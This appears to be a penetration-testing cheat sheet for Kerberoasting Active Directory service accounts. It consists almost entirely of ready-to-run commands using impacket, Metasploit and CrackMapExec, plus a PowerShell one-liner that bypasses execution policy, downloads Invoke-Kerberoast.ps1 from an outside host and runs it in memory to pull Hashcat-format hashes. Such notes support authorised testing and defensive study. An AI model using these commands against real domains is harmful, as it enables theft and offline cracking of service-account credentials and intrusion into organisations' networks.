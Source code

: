 # impacket

```
GetUserSPNs.py -request -dc-ip 172.16.139.3 acme.corp/sql_svc -save
```

# Invoke-Kerberoast and provide Hashcat compatible hashes
```

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://uri.whatever/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"

```

# Request the Password Hash from the Ticket Granting Service (TGS) for a user account that has an SPN (Service Principal Name) set.  

```
# Add host to /etc/hosts: 1.1.1.1 domain.com  
  
# User and Password  
GetUserSPNs.py DOMAIN.com/USER:PASSWORD -dc-ip DOMAIN.com -request -outputfile kerberoast_hashes.txt  
  
# For LM:NT hash authentication use -hashes LM:NT  
# To use local ccache use -k  
  
or  
  
# Metasploit  
msfconsole -q -x 'use auxiliary/gather/get_user_spns; set rhosts DC-TARGET-IP ; set smbuser USER ; set smbpass PASSWORD ; set smbdomain DOMAIN.com ; run'  
  
or  
  
# You "MIGHT" need to export your ccache alias if you have issues saving it  
export KRB5CCNAME=DOMAIN.ccache  
  
# Crackmapexec  
crackmapexec ldap DOMAIN.com -u USER -p PASSWORD --kerberoasting USER_ccache.txt --kdcHost KDC-TARGET-DOMAIN/IP
```
